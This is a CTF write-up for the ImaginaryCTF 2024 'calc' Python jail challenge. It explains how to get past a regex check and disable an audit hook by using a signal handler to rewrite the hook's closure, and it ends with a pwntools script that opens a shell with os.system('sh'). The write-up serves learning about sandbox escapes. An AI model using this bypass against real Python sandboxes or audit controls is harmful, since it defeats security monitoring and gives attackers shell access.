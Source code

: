 # ImaginaryCTF 2024 calc

```python
#!/usr/bin/env python3
from sys import addaudithook
from os import _exit
from re import match


def safe_eval(exit, code):
    def hook(*a):
        exit(0)

    def dummy():
        pass

    dummy.__code__ = compile(code, "<code>", "eval")
    addaudithook(hook)
    return dummy()


if __name__ == "__main__":
    expr = input("Math expression: ")
    if len(expr) <= 200 and match(r"[0-9+\-*/]+", expr):
        print(safe_eval(_exit, expr))
    else:
        print("Do you know what is a calculator?")
```

Requirements:

1. Input is a expression: Use list comprehension to execute multiple statements
2. Input should match regex: Use `1,` to bypass since it is not a full match
3. Audit hook: Add signal handler, raise signal and change content of the audit hook to bypass

This writeup is inspired by [ICTF 2024 - All PyJails 『ANY %』on Shy blog](https://blog.antoine.rocks/%F0%9F%91%A9%E2%80%8D%F0%9F%8F%ABwriteups/ictf%202024%20-%20all%20pyjails/).

If we launch shell directly, the audit hook will immediately kill the process.

The audit hook is implemented in `def hook(*a):`:

```python
def safe_eval(exit, code):
    def hook(*a):
        exit(0)
```

It captures `exit` from the outer function. It is stored in `__closure__`:

```python
import os
def safe_eval(exit, code):
    def hook(*a):
        exit(0)
    
    # prints (<cell at 0x1042321c0: builtin_function_or_method object at 0x104169400>,)
    print(hook.__closure__[0])

safe_eval(os._exit, "")
```

We can override the captured `exit` to `print`:

```python
import os
def safe_eval(exit, code):
    def hook(*a):
        exit(0)
    
    hook.__closure__[0].__setattr__("cell_contents", print)
    # print(0) instead of exit(0)
    hook()

safe_eval(os._exit, "")
```

Now the audit hook effectively does nothing. The next problem is, how do we access `hook`? It is a local function to `safe_eval`, so we cannot access it from outside, unless:

1. We can get a frame via raising an exception and catching it, as [audited - pwn, 263pts writeup by rickastley / the cr0wn](https://ctftime.org/writeup/25467); however, we cannot use try-except in an expression due to `compile(..., "eval")`
2. We can get a frame by registering a signal handler and raising the signal, as [[ICTF 2024 - All PyJails 『ANY %』on Shy blog](https://blog.antoine.rocks/%F0%9F%91%A9%E2%80%8D%F0%9F%8F%ABwriteups/ictf%202024%20-%20all%20pyjails/)]

The second method is used:

1. Get signal module via `s = __import__["sys"].modules["_signal"]`
2. Register signal handler and replace the `exit` function in `hook`: `s.signal(1, lambda num, frame: frame.f_back.f_locals["hook"].__closure__[0].__setattr__("cell_contents", print))`, here `frame` refers to the frame of `dummy`, so `frame.f_back` belongs to `safe_eval`, and we can find `hook` from `frame.f_back.f_locals["hook"]`
3. Raise the signal handle to mute the audit hook: `s.raise(1)`
4. Eventually get shell: `__import__("os").system("sh")`

Attack script:

```python
from pwn import *

context(log_level="debug")

p = process(["python3", "calc.py"])
p.sendline(
    (
        "1,"
        + '[s:=__import__("sys").modules["_signal"],'
        + 's.signal(1, lambda num, frame: frame.f_back.f_locals["hook"].__closure__[0].__setattr__("cell_contents", print)),'
        + "s.raise_signal(1),"
        + '__import__("os").system("sh")]'
    ).encode()
)
p.interactive()
```
